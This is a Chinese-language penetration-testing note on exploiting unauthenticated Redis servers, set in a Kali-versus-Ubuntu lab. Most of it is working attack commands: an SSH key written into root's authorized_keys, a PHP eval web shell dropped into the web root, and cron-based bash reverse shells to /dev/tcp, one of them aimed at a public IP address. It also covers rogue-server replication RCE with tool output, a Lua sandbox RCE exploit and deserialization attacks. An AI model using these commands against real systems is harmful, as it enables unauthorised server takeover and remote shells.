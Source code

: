 ```yaml
---
title: Redis未授权漏洞
date: 2023-09-03T15:29:52+08:00
updated: 2023-06-09T22:35:14+08:00
categories: 
- 渗透测试
- 外网漏洞
---
```


原理

漏洞利用

```
攻击机
kali  192.168.121.135
目标机
ubuntu 192.168.121.138
```

## redis常用命令

```
  set testkey "Hello World"         # 设置键testkey的值为字符串Hello World
  get testkey                       # 获取键testkey的内容
  SET score 99                      # 设置键score的值为99
  INCR score                        # 使用INCR命令将score的值增加1
  GET score                         # 获取键score的内容
  keys *                            # 列出当前数据库中所有的键
  get anotherkey                    # 获取一个不存在的键的值
  config set dir /home/test         # 设置工作目录
  config set dbfilename redis.rdb   # 设置备份文件名
  config get dir                    # 检查工作目录是否设置成功
  config get dbfilename             # 检查备份文件名是否设置成功
  save                              # 进行一次备份操作
  flushall 删除所有数据
  del key 删除键为key的数据
```

## 漏洞复现

nmap扫描目标机端口，发现开放6379端口，服务为redis

尝试直接连接

```
攻击机:
redis-cli -h 192.168.121.138
192.168.121.138:6379> info
# Server
redis_version:3.2.11
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:674c1c5898a9d86b
redis_mode:standalone
os:Linux 5.19.0-32-generic x86_64
#可直接无验证登录,存在未授权访问漏洞
```

### 公私钥认证

安装ssh服务

```
靶机执行
sudo mkdir /root/.ssh
```

```
攻击机执行
ssh-keygen -t rsa 
密码全部置为空
进入.ssh/目录，将生成的公钥保存到pub_key.txt中
(echo -e "\n\n";cat id_rsa.pub;echo -e "\n\n")>pub_key.txt
#将生成的公钥写进目标redis
cat /root/.ssh/pub_key.txt | redis-cli -h 192.168.121.138 -x set pub_key
OK
#将redis默认备份路径改为/root/.ssh/ -- 可通过CONFIG GET dir 查看当前路径
CONFIG SET dir /root/.ssh/
#设置备份公钥为authorized_keys
CONFIG SET dbfilename authorized_keys
#写入完成，尝试ssh连接
ssh 192.168.121.138 
#若报错“ssh: connect to host 192.168.121.138 port 22: Connection refused”
#说明目标没有shh服务
```

### 绝对路径写shell

```
#目标要存在web服务，且知道根目录路径
攻击机执行
#如果没有目录，创建即可
config set dir /var/www/html 
config set dbfilename redis.php  #把默认备份文件改为redis.php，为了后面写码
192.168.121.138:6379> set shell "<?php @eval($_POST['1']);?>"
save
然后访问redis.php即可传参执行命令，可继续提权
```

### 反弹shell

cron  --linux下的定时执行任务

详细介绍:https://linuxtools-rst.readthedocs.io/zh_CN/latest/tool/crontab.html

```
/var/spool/cron/ 目录下存放的是每个用户包括root的crontab任务，每个任务以创建者的名字命名
/etc/crontab 这个文件负责调度各种管理和维护任务。
ubuntu中root默认路径/var/spool/cron/crontabs/root
```

```
config set dbfilename root
config set dir /var/spool/cron
SET xxx "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/192.168.121.135/7777 0>&1\n\n"
set x "\n* * * * * bash -i >& dev/tcp/43.136.236.40/7777 0>&1\n"   -->* * * * *代表每分钟执行一次命令
save
```

### 主从复制rce

redis4.x新增模块功能，redis模块可以使用外部模块扩展redis,从而实现一个新的redis命令，通过写C语言编写出.so文件，redis模块为动态库，在启动或是MODEL LOAD时会将文件加载到库中，从而达到注入恶意.so文件的目的

原理:通过模拟恶意主机作为主节点，在目标机上设置主从复制，然后模拟`FULLRESYNC`执行全量复制操作，将恶意主机上的恶意so文件同步到目标主机并加载以执行系统恶意命令。

```
使用https://github.com/n0b0dyCN/redis-rogue-server工具，即可直接连接目标机获得shell
```

```
└─# ./redis-rogue-server.py --rhost 127.0.0.1  --lhost 127.0.0.1 --lport 8888
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 127.0.0.1:6379
[info] SERVER 127.0.0.1:8888
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: i
[info] Interact mode start, enter "exit" to quit.

```

### Lua RCE

漏洞原理：FORLOOP操作码未验证数据类型导致读取内存指针；UpVal处理时的内存破坏

lua漏洞的详细介绍：https://gist.github.com/corsix/6575486

环境搭建

```
centos6.5 + redis-2.6.16
```

下载可利用脚本，修改目标地址host

https://github.com/QAX-A-Team/redis_lua_exploit/

执行后redis-cli连接目标redis执行

```
eval "tonumber('id', 8)" 0
```

即可执行id命令，若要更改命令，在id处修改即可，也可反弹shell

关于该漏洞的挖掘和分析

https://www.anquanke.com/post/id/151203

### 反序列化

我们理解到的redis是一种小型数据库，在现实环境中redis可能会被用来存储序列化后的数据

利用思路就是将篡改好的恶意序列化数据添加到redis中，当该数据再次取出反序列化时除法反序列化漏洞

jackon反序列化

```
观察json对象是不是数组，第一个元素像不像类名
["com.blue.bean.User",xxx]
```

fastjson:关注有没有@type字段

jdk:观察value是不是base64,如果是解码后看里面有没有java包名

漏洞的具体利用流程：

https://paper.seebug.org/1169/#_3

参考链接：

https://xz.aliyun.com/t/5665#toc-8

https://www.anquanke.com/post/id/151203#h3-3

https://www.mad-coding.cn/2020/01/16/Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#1-2-1-%E5%AE%89%E8%A3%85redis
